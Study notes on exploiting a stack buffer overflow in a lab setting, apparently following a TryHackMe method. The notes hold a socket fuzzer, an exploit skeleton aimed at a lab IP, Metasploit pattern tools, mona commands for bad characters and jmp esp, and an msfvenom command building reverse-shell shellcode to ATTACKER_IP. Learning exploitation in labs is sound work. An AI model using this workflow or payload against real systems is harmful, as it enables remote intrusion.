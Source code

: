 ```yaml
---
title: 3 - Buffer Overflow
summary: Gaining Access step – a note for Buffer Overflows
description: Gaining Access step – a note for Buffer Overflows
---
```


# Memory Architecture

---

## Memory

![killchain-buffer_overflow-architecture-memory.png](../attachments/killchain-buffer_overflow-architecture-memory.png)
Source: TCM Security

## Stack

![killchain-buffer_overflow-architecture-stack.png](../attachments/killchain-buffer_overflow-architecture-stack.png)
Source: TCM Security

# Basis

---

 > 
 > **<font color=red>python -c "print('A' \*</font> 40 <font color=red>+ '</font>\\xef\xbe\xad\xde<font color=red>')"</font>**</br>
 > Print payload with overflow and value to inject.

 > 
 > **<font color=red>cat</font> myPayloadFile <font color=red>- |</font> vulnerableBinary**</br>
 > Use `-` to hang after succefull buffer overflow. 

# THM Method

---

## 1 - Fuzzing

 > 
 > **<font color=red>1_fuzzer.py</font>**</br>

````py
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.99.64"
port = 1337

timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)

````

## 2 - Controlling EIP (Finding Offset)

### Method 1: Manual

 > 
 > **<font color=red>/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l</font> 3000**</br>
 > Create chars to find EIP (maki it 400 bytes longer than the string that crashed the server).

 > 
 > Take that string of chars and put it in "payload" variable in 2_exploit.py.

 > 
 > Re-run the program in Immunity.

 > 
 > **<font color=red>2_exploit.py</font>**</br>

````py
import socket

ip = "10.10.99.64"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3 ..." # HERE !
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
````

 > 
 > Look at EIP Value (Immunity > Registers (in CPU Window))
 > ![exploit-buffer_overflow-eip_manual.png](../attachments/exploit-buffer_overflow-eip_manual.png)

 > 
 > **<font color=red>/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l</font> 3000 <font color=red>-q</font> 386F4337**</br>
 > Return the exact offset.

 > 
 > Take that offset and put it in "offset" variable in 2_exploit.py.

 > 
 > Set "payload" variable to "" (empty).

 > 
 > Set "retn" variable to "BBBB" (EIP overwrite).

### Method 2: Mona

Immunity : !mona findmsp -distance 2400

→ EIP contains normal pattern : 0x6f43396e (offset 1978)

![exploit-buffer_overflow-eip_mona.png](../attachments/exploit-buffer_overflow-eip_mona.png)

## 3 - Finding Bad characters

### Method 1: Manual

 > 
 > **<font color=red>!mona bytearray -b "</font>\\x00<font color=red>"</font>**</br>
 > In Immunity

 > 
 > <font color=red>
**3_gen_badchars.py**</font></br>

````py
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
````

 > 
 > Take output form `3_gen_badchars.py` and put il in "payload" variable in `2_exploit.py`.

 > 
 > **<font color=red>2_exploit.py</font>**</br>

 > 
 > Follow EIP in Immunity.
 > ![exploit-buffer_overflow-bad_chars_manual_1.png](../attachments/exploit-buffer_overflow-bad_chars_manual_1.png)

 > 
 > Check if all chars are here in right order.
 > ![exploit-buffer_overflow-bad_chars_manual_2.png](../attachments/exploit-buffer_overflow-bad_chars_manual_2.png)

 > 
 > Notes : 
 > 
 > * Bad chars will not necessarily be B0.
 > * When there are consecutive bad chars, the only bad is the first one (but we can remove them by precaution).

### Method 2: Mona

 > 
 > **<font color=red>!mona config -set workingfolder</font> c:\mona**</br>
 > Set where mona will save data.

 > 
 > **<font color=red>!mona bytearray -cpb</font> “\x00”**</br>
 > Generate Bytearray

 > 
 > **<font color=red>!mona compare -f</font> bytearray.bin <font color=red>-a</font> ESP-ADDR**</br>
 > Find bad chars.

![exploit-buffer_overflow-bad_chars_mona.png](../attachments/exploit-buffer_overflow-bad_chars_mona.png)

Do it again adding bad chars :

 > 
 > **<font color=red>!mona bytearray -cpb</font> "\x00\x07\x08\x2e\x2f\xa0\xa1"**</br>
 > Generate Byte array.

## 4 - Find Jump Point

### Method 1: Manual

 > 
 > Set "retn" variable to the jump point (backward because of little endian).
 > Ex :  0x01020304 -> "\x04\x03\x02\x01

### Method 2: Mona

 > 
 > **<font color=red>!mona jmp -r esp -cpb </font>"\x00\x07\x08\x2e\x2f\xa0\xa1"**</br>
 > Return all "jmp esp" (specify bad chars after -cpb).

![exploit-buffer_overflow-jump_point_mona.png](../attachments/exploit-buffer_overflow-jump_point_mona.png)

## 5 - Generate Shellcode (MSFVNOM)


 > 
 > **<font color=red>msfvenom -p</font> windows/shell_reverse_tcp <font color=red>LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>EXITFUNC=thread -f</font> c <font color=red>-b "</font>\\x00\x07\x08\x2e\x2f\xa0\xa1<font color=red>"</font>**</br>
 > Gen Reverse Shell in Shellcode (specify bad chars).

#### Flags

 > 
 > **<font color=red>-b "</font>\\x00<font color=red>"</font>**</br>
 > Specify bad characters (always put at least null byte).
 > 
 > **<font color=red>-f</font> c**</br>
 > File Type (here it's c file).
 > 
 > **<font color=red>-a</font> x86**</br>
 > Architecture.
